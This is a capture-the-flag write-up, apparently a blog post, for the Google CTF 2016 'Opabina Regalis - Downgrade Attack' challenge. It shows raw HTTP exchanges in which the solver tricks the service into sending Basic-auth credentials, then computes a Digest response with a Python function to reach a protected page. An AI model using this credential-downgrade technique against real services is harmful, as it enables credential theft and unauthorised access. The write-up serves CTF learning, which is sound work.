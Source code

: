 ```yaml
---
layout: post
title: Google CTF 2016 - Opabina Regalis - Downgrade Attack
---
```

> Following on from Opabina Regalis - Token Fetch, this challenge listens on
> ``ssl-added-and-removed-here.ctfcompetition.com:20691``.

This challenge also uses protocol buffers. We're using full duplex sockets to
act as both a client and a server on the same connection. When we first connect,
we are sent a request to ``/protected/not-secret``. The idea is to respond to
this request with a 401 Unauthorized, giving a ``WWW-Authenticate: Basic``
header. We should get back a request with an Authorization header, containing a
base64-encoded username and password. We can then use this password to make our
own authenticated request to ``/protected/secret``.

Initial request from server:

{% highlight http %}
GET /protected/not-secret HTTP/1.1
User-Agent: opabina-regalis.go
{% endhighlight %}

Our 401 response:

{% highlight http %}
HTTP/1.1 401 Unauthorized
WWW-Authenticate: Basic realm="In the realm of hackers"
{% endhighlight %}

The server will then respond with a request containing the base64 username and
password:

{% highlight http %}
GET /protected/not-secret HTTP/1.1
User-Agent: opabina-regalis.go
Authorization: Basic Z29vZ2xlLmN0ZjoxODAxMTg2MjEwLjEwMDA2NTI3NjEuOTA4OTcyODQy
{% endhighlight %}

Which decodes to ``google.ctf:1801186210.1000652761.908972842``. Note that a new
password is generated for each session.

If we make a request to ``/protected/secret``, we get a 401, specifying Digest
authorization:

{% highlight http %}
HTTP/1.1 401 Unauthorized
Server: opabina-regalis.go
WWW-Authenticate: Digest realm="In the realm of hackers",qop="auth",nonce="f2c8bb0f1b5bb7ed",opaque="f2c8bb0f1b5bb7ed"
{% endhighlight %}

Since we have the password, nonce, realm, and opaque parameters, we can now
compute the digest response:

{% highlight python %}
def calc_response(username, realm, password, method, uri, nonce, nc, cnonce):
    ha1 = hashlib.md5(':'.join((username, realm, password))).hexdigest()
    ha2 = hashlib.md5(':'.join((method, uri))).hexdigest()
    r = hashlib.md5(':'.join((ha1, nonce, nc, cnonce, 'auth', ha2))).hexdigest()
    return r
{% endhighlight %}

And we can build the header and send it with our request:

{% highlight http %}
GET /protected/secret HTTP/1.1
Authorization: Digest username="google.ctf",realm="In the realm of hackers",nonce="af8a6a5f1c64ade3",uri="/protected/secret",qop=auth,nc=00000001,cnonce="1115fd1d40a5b9d5",response="ec0555e97853f8e14b2b8cae23208d7b",opaque="af8a6a5f1c64ade3"
{% endhighlight %}

Bingo!

{% highlight http %}
HTTP/1.1 200 OK
Server: opabina-regalis.go

CTF{What:is:green:and:goes:to:summer:camp...A:brussel:scout}
{% endhighlight %}
